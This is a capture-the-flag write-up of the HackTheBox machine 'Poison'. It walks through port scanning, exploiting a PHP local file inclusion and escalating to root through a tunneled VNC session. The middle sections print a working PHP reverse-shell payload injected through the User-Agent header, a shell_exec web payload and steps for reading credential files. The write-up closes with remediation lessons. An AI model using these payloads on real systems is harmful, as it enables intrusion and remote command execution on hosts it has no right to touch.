



# Poison Writeup w/o Metasploit



## Reconnaissance <a id="5226"></a>

First thing first, we run a quick initial nmap scan to see which ports are open and which services are running on those ports.

```text
nmap -sC -sV -O -oA initial 10.10.10.84
```

* **-sC**: run default nmap scripts
* **-sV**: detect service version
* **-O**: detect OS
* **-oA**: output all formats and store in file _initial_

We get back the following result showing that 2 ports are open:

* **Port 22:** running OpenSSH 7.2
* **Port 80:** running Apache httpd 2.4.29

```text
Starting Nmap 7.80 ( https://nmap.org ) at 2020-01-03 22:13 EST                                                                                                                
Nmap scan report for 10.10.10.84                                                                                                                                               
Host is up (0.031s latency).                                                                                                                                                   
Not shown: 998 closed ports                                                                                                                                                    
PORT   STATE SERVICE VERSION                                                                                                                                                   
22/tcp open  ssh     OpenSSH 7.2 (FreeBSD 20161230; protocol 2.0)                                                                                                              
| ssh-hostkey:                                                                                                                                                                 
|   2048 e3:3b:7d:3c:8f:4b:8c:f9:cd:7f:d2:3a:ce:2d:ff:bb (RSA)                                                                                                                 
|   256 4c:e8:c6:02:bd:fc:83:ff:c9:80:01:54:7d:22:81:72 (ECDSA)                                                                                                                
|_  256 0b:8f:d5:71:85:90:13:85:61:8b:eb:34:13:5f:94:3b (ED25519)                                                                                                              
80/tcp open  http    Apache httpd 2.4.29 ((FreeBSD) PHP/5.6.32)
|_http-server-header: Apache/2.4.29 (FreeBSD) PHP/5.6.32
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.80%E=4%D=1/3%OT=22%CT=1%CU=35958%PV=Y%DS=2%DC=I%G=Y%TM=5E1002E4
.....
Network Distance: 2 hops
Service Info: OS: FreeBSD; CPE: cpe:/o:freebsd:freebsdOS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 28.65 seconds
```

Before we start investigating these ports, let’s run more comprehensive nmap scans in the background to make sure we cover all bases.

Let’s run an nmap scan that covers all ports.

```text
nmap -sC -sV -p- -oA full 10.10.10.84
```

No other ports are open.

Similarly, we run an nmap scan with the **-sU** flag enabled to run a UDP scan.

```text
nmap -sU -p- -oA udp 10.10.10.84
```

We get back the following result showing that no other ports are open.

```text
Starting Nmap 7.80 ( https://nmap.org ) at 2020-01-03 22:16 EST
Nmap scan report for 10.10.10.84
Host is up (0.034s latency).
Not shown: 65534 closed ports
PORT    STATE         SERVICE
514/udp open|filtered syslogNmap done: 1 IP address (1 host up) scanned in 3340.51 seconds
```

Before we move on to enumeration, let’s make some mental notes about the nmap scan results.

* The OpenSSH version that is running on port 22 is not associated with any critical vulnerabilities, so it’s unlikely that we gain initial access through this port, unless we find credentials.
* Ports 80 is running a web server, so we’ll perform our standard enumeration techniques on it.

## Enumeration <a id="46e8"></a>

I always start off with enumerating HTTP first.

**Port 80**

Visit the application in the browser.


It’s a simple website that takes in a script name and executes it. We’re given a list of scripts to test, so let’s test them one by one. The ini.php & info.php scripts don’t give us anything useful. The phpinfo.php script gives us a wealth of information on the PHP server configuration. The listfiles.php script gives us the following output.

```text
Array
(
    [0] => .
    [1] => ..
    [2] => browse.php
    [3] => index.php
    [4] => info.php
    [5] => ini.php
    [6] => listfiles.php
    [7] => phpinfo.php
    [8] => pwdbackup.txt
)
```

The pwdbackup.txt file looks interesting. Let’s see if we can view it in the application.


We get the following output.

```text
This password is secure, it's encoded atleast 13 times.. what could go wrong really..Vm0wd2QyUXlVWGxWV0d4WFlURndVRlpzWkZOalJsWjBUVlpPV0ZKc2JETlhhMk0xVmpKS1IySkVUbGhoTVVwVVZtcEdZV015U2tWVQpiR2hvVFZWd1ZWWnRjRWRUTWxKSVZtdGtXQXBpUm5CUFdWZDBSbVZHV25SalJYUlVUVlUxU1ZadGRGZFZaM0JwVmxad1dWWnRNVFJqCk1EQjRXa1prWVZKR1NsVlVWM040VGtaa2NtRkdaR2hWV0VKVVdXeGFTMVZHWkZoTlZGSlRDazFFUWpSV01qVlRZVEZLYzJOSVRsWmkKV0doNlZHeGFZVk5IVWtsVWJXaFdWMFZLVlZkWGVHRlRNbEY0VjI1U2ExSXdXbUZEYkZwelYyeG9XR0V4Y0hKWFZscExVakZPZEZKcwpaR2dLWVRCWk1GWkhkR0ZaVms1R1RsWmtZVkl5YUZkV01GWkxWbFprV0dWSFJsUk5WbkJZVmpKMGExWnRSWHBWYmtKRVlYcEdlVmxyClVsTldNREZ4Vm10NFYwMXVUak5hVm1SSFVqRldjd3BqUjJ0TFZXMDFRMkl4WkhOYVJGSlhUV3hLUjFSc1dtdFpWa2w1WVVaT1YwMUcKV2t4V2JGcHJWMGRXU0dSSGJFNWlSWEEyVmpKMFlXRXhXblJTV0hCV1ltczFSVmxzVm5kWFJsbDVDbVJIT1ZkTlJFWjRWbTEwTkZkRwpXbk5qUlhoV1lXdGFVRmw2UmxkamQzQlhZa2RPVEZkWGRHOVJiVlp6VjI1U2FsSlhVbGRVVmxwelRrWlplVTVWT1ZwV2EydzFXVlZhCmExWXdNVWNLVjJ0NFYySkdjR2hhUlZWNFZsWkdkR1JGTldoTmJtTjNWbXBLTUdJeFVYaGlSbVJWWVRKb1YxbHJWVEZTVm14elZteHcKVG1KR2NEQkRiVlpJVDFaa2FWWllRa3BYVmxadlpERlpkd3BOV0VaVFlrZG9hRlZzWkZOWFJsWnhVbXM1YW1RelFtaFZiVEZQVkVaawpXR1ZHV210TmJFWTBWakowVjFVeVNraFZiRnBWVmpOU00xcFhlRmRYUjFaSFdrWldhVkpZUW1GV2EyUXdDazVHU2tkalJGbExWRlZTCmMxSkdjRFpOUkd4RVdub3dPVU5uUFQwSwo=
```

Based on the output, we can deduce that the application is not validating user input and therefore is vulnerable to local file inclusion \(LFI\). Based on the comment, this file includes a password that is encoded. Before we go down the route of decoding the password and trying to SSH into an account using it, let’s see if we can turn the LFI into a remote file inclusion \(RFI\).

There are several methods we can try.

**PHP http:// Wrapper**

The PHP http wrapper allows you to access URLs. The syntax of the exploit is:

```text
http://[path-to-remote-file]
```

Start a simple python server.

```text
python -m SimpleHTTPServer 5555
```

Attempt to run a file hosted on the server.



We get an error informing us that the http:// wrapper is disabled. Similarly, we can try ftp:// but that is also disabled.

**PHP expect:// Wrapper**

The PHP expect wrapper allows you to run system commands. The syntax of the exploit is:

```text
expect://[command]
```

This functionality is not enabled by default so let’s check if our application has it enabled. Intercept the request using Burp and attempt to run the ‘id’ command.


We get an error informing us that the PHP expect wrapper is not configured.

**PHP input:// Wrapper**

The input:// wrapper allows you to read raw data from the request body. Therefore, you can use it to send a payload via POST request. The syntax for the request would be:

```text
php://input&cmd=[command]
```

The syntax for post data would be:

```text
<?php echo shell_exec($GET['cmd']); ?>
```

This doesn’t work for our request, but I thought it was worth mentioning. There are several other techniques you can try that are not mentioned in this blog. However, I’m confident that the application is not vulnerable to RFI so I’m going to move on.

One useful technique you should know is how to view the source code of files using the filter:// wrapper.

**PHP filter:// Wrapper**

When a file such as index.php is executed, the page only show the output of the script. To view the source code, you can use the filter:// wrapper.

```text
php://filter/convert.base64-encode/resource=[file-name]
```

This will encode the page in base64 and output the encoded string.

For example, to view the ini.php file, run the below command.


This gives you a base64 encoded version of the source code. Decode the string.

```text
echo "PD9waHAKcHJpbnRfcihpbmlfZ2V0X2FsbCgpKTsKPz4K" | base64 --decode
```

You get the source code.

```text
<?php
print_r(ini_get_all());
?>
```

We diverged a little bit from solving this machine, the conclusion of all the above testing is that it is not vulnerable to an RFI. So let’s move on to gaining an initial foothold on the system.

## Initial Foothold <a id="0a99"></a>

Gaining an initial foothold can be done in three ways.

* Decode the pwdbackup.txt file and use the decoded password to SSH into a user’s account.
* Race condition exploit in phpinfo.php file that turns the LFI to an RCE.
* Log poisoning exploit that turns the LFI to an RCE.

I initially got access to the machine using method 1 and then exploited methods 2 & 3 after watching [ippsec’s video](https://www.youtube.com/watch?v=rs4zEwONzzk).

**Method 1: pwdbackup.txt**

The output of the pwdbackup.txt file gives us a hint that the password is encoded at least 13 times, so let’s write a simple bash script to decode it.

```text
#!/bin/bash# secret.txt contains encoded text
secret=$(<secret.txt)for i in {1..13}; do
        secret=$(<<<"$secret" base64 --decode)
done
echo "$secret"
```

Save the script in a file called decode.sh and run it.

```text
root@kali:~/Desktop/htb/poison# ./decode.sh 
Charix!2#4%6&8(0
```

We get back a password. We want to try this password to SSH into a user’s account, however, we don’t have a username. Let’s try and get that using the LFI vulnerability. Enter the following string in the Scriptname field to output the /etc/passwd file.

```text
/etc/passwd
```

We get back the following data \(truncated\).

```text
# $FreeBSD: releng/11.1/etc/master.passwd 299365 2016-05-10 12:47:36Z bcr $
#
root:*:0:0:Charlie &:/root:/bin/csh
toor:*:0:0:Bourne-again Superuser:/root:
.....
charix:*:1001:1001:charix:/home/charix:/bin/csh
```

Only two users have login shells: root and charix. Considering the password we found, we know it belongs to Charix.

SSH into Charix account using the credentials we found.

```text
ssh charix@10.10.10.84 
```

View the user.txt flag.


**Method 2: phpinfo.php Race Condition**

In 2011, [this research paper](https://insomniasec.com/downloads/publications/LFI%20With%20PHPInfo%20Assistance.pdf) was published outlining a race condition that can turn an LFI vulnerability to a remote code execution \(RCE\) vulnerability. The following server side components are required to satisfy this exploitable condition:

* An LFI vulnerability
* Any script that displays the output of the PHPInfo\(\) configuration

As we saw in the enumeration phase, the Poison htb server satisfies both conditions. Therefore, let’s download the[ script](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/File%20Inclusion/phpinfolfi.py) and modify it to fit our needs.

First, change the payload to include the following reverse shell available on kali by default.

```text
/usr/share/laudanum/php/php-reverse-shell.php
```

Make sure to edit the IP address and port. Next, change the LFIREQ parameter to the one in our application.

```text
LFIREQ="""GET /browse.php?file=%s
```

You’ll also have to change all the “=&gt;” to “=&gt” so that the script compiles properly.

That’s it for modifying the script. Now, set up a listener to receive the shell.

```text
nc -nlvp 1234
```

Run the script.

```text
python phpinfolfi.py 10.10.10.84 80
```

We get a shell!


**Method 3: Log Poisoning**

This was probably the intended way of solving the machine considering that the box is called “Poison”. Log Poisoning is a common technique used to gain RCE from an LFI vulnerability. The way it works is that the attacker attempts to inject malicious input to the server log. Then using the LFI vulnerability, the attacker calls the server log thereby executing the injected malicious code.

So the first thing we need to do is find the log file being used on the server. A quick google search tells us that freebsd saves the log file in the following location.

```text
/var/log/httpd-access.log
```

A sample entry in the access log is:

```text
10.10.14.12 - - [05/Jan/2020:06:20:15 +0100] "GET /browse.php?file=php://filter/convert.base64-encode/resource=ini.php HTTP/1.1" 200 44 "http://10.10.10.84/" "Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0"
```

Notice that the user agent “_Mozilla/5.0 \(X11; Linux x86\_64; rv:68.0\) Gecko/20100101 Firefox/68.0_” is being logged. Since the user agent is something that is completely in our control, we can simply change it to send a reverse shell back to our machine.

Intercept the request in Burp and change the user agent to the reverse shell from [pentestmonkey](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet).

```text
<?php exec('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.12 6666 >/tmp/f') ?>
```

Set up a listener to receive the reverse shell.

```text
nc -nlvp 6666
```

Execute the request in Burp so that the PHP code is saved in the log file. Using the LFI vulnerability call the log file which in turn should execute the reverse shell.

```text
http://10.10.10.84/browse.php?file=%2Fvar%2Flog%2Fhttpd-access.log
```

We get a shell!


## Privilege Escalation <a id="0811"></a>

Since the machine is running a freeBSD OS, the LinEnum script won’t work on it. So we’ll have to resort to manual means of enumeration.

If you list the files in Charix’s home directory, you’ll find a secret.zip file.

```text
charix@Poison:~ % ls -l
total 8
-rw-r-----  1 root  charix  166 Mar 19  2018 secret.zip
-rw-r-----  1 root  charix   33 Mar 19  2018 user.txt
```

If you try to decompress the file, it will ask for a password. Let’s first transfer the file to our attack machine.

```text
scp charix@10.10.10.84:/home/charix/secret.zip .
```

Try to decompress the file using Charix’s SSH password. Most user’s reuse passwords.

```text
unzip secret.zip
```

It works! Check the file type.

```text
root@kali:~/Desktop/htb/poison# file secret
secret: Non-ISO extended-ASCII text, with no line terminators
```

The file seems to be encoded. Before we go down the route of figuring out what type of encoding is being used, let’s park this for now and do more enumeration.

In the target machine, run the ps command to see which processes are running.

```text
ps -aux
```

There’s a VNC process being run as root.

```text
root    529  0.0  0.7  23620 7432 v0- I    Fri23      0:00.04 Xvnc :1 -desktop X -httpd /usr/local/sha
```

Let’s view the entire process information.

```text
charix@Poison:~ % ps -auxww | grep vnc
root    529   0.0  0.7  23620 7432 v0- I    Fri23      0:00.04 Xvnc :1 -desktop X -httpd /usr/local/share/tightvnc/classes -auth /root/.Xauthority -geometry 1280x800 -depth 24 -rfbwait 120000 -rfbauth /root/.vnc/passwd -rfbport 5901 -localhost -nolisten tcp :1
```

VNC is a remote access software. The -rfbport flag tells us that it’s listening on port 5901 on localhost.

We can verify that using the netstat command.

```text
charix@Poison:~ % netstat -an | grep LIST
tcp4       0      0 127.0.0.1.25           *.*                    LISTEN
tcp4       0      0 *.80                   *.*                    LISTEN
tcp6       0      0 *.80                   *.*                    LISTEN
tcp4       0      0 *.22                   *.*                    LISTEN
tcp6       0      0 *.22                   *.*                    LISTEN
tcp4       0      0 127.0.0.1.5801         *.*                    LISTEN
tcp4       0      0 127.0.0.1.5901         *.*                    LISTEN
```

Since VNC is a graphical user interface software, we can’t access it through our target machine. We need port forwarding.

```text
# ssh -L [local-port]:[remote-ip]:[remote-port]
ssh -L 5000:127.0.0.1:5901 charix@10.10.10.84
```

The above command allocates a socket to listen to port 5000 on localhost from my attack machine \(kali\). Whenever a connection is made to port 5000, the connection is forwarded over a secure channel and is made to port 5901 on localhost on the target machine \(poison\).

We can verify that the command worked using netstat.

```text
root@kali:~/Desktop/htb/poison# netstat -an | grep LIST
tcp        0      0 127.0.0.1:5000          0.0.0.0:*               LISTEN                                                                                                     
tcp6       0      0 ::1:5000                :::*                    LISTEN
```

Now that port forwarding is set, let’s connect to VNC on the attack machine.

```text
root@kali:~/Desktop/htb/poison# vncviewer 127.0.0.1:5000
Connected to RFB server, using protocol version 3.8
Enabling TightVNC protocol extensions
Performing standard VNC authentication
Password:
```

I tried Charix’s password but that didn’t work. I then googled “vnc password” and found the following description on the man page.



When setting a VNC password, the password is obfuscated and saved as a file on the server. Instead of directly entering the password, the obfuscated password file can be included using the passwd option. Earlier in this blog we found a secret file that we didn’t know where to use. So let’s see if it’s the obfuscated password file we’re looking for.

```text
vncviewer 127.0.0.1:5000 -passwd secret
```

We’re in!


VNC was running with root privileges so we can view the root.txt file.


Before we end this blog, let’s check if there is any online tools that decode the obfuscated password file. Since it’s not encrypted, we should be able to reverse it without a password.

After a bit of googling, I found this [github repository](https://github.com/trinitronx/vncpasswd.py) that does that for us. Clone the repository and run the script on our file.

```text
python vncpasswd.py -d -f ../../htb/poison/secret
```

* **-d:** decrypt
* **-f:** file

We get the following output showing us the plaintext password is “VNCP@$$!”.

```text
Cannot read from Windows Registry on a Linux system
Cannot write to Windows Registry on a Linux system
Decrypted Bin Pass= 'VNCP@$$!'
Decrypted Hex Pass= '564e435040242421'
```

Now that we know the password, we could directly log into VNC using the plaintext password instead of the obfuscated password file.

## Lessons Learned <a id="5a84"></a>

To gain an initial foothold on the box we exploited four vulnerabilities.

1. LFI vulnerability that allowed us to both enumerate files and call and execute malicious code we stored on the server. This could have been easily avoided if the developer validated user input.
2. Sensitive information disclosure. The pwdbackup.txt file that contained a user’s SSH password was publicly stored on the server for anyone to read. Since the content of the file was encoded instead of encrypted, we were able to easily reverse the content and get the plaintext password. This could have been avoided if the password file was not publicly stored on the server and strong encryption algorithms were used to encrypt the file.
3. Log file poisoning. Since the log file was storing the user agent \(user controlled data\) without any input validation, we were able to inject malicious code into the server that we executed using the LFI vulnerability. Again, this could have been easily avoided if the developer validated user input.
4. Security misconfiguration that lead to a race condition in phpinfo.php file. This required two conditions to be present: \(1\) an LFI vulnerability which we already discussed, and \(2\) a script that displays the output of the phpinfo\(\) configuration. The administrators should have disabled the phpinfo\(\) function in all production environments.

To escalate privileges we exploited one vulnerability.

1. Reuse of password. The zip file that contained the VNC password was encrypted using Charix’s SSH password. The question we really should be asking is why is the password that gives you access to the root account encrypted with a lower privileged user’s password? The remediation recommendations for this vulnerability are obvious.

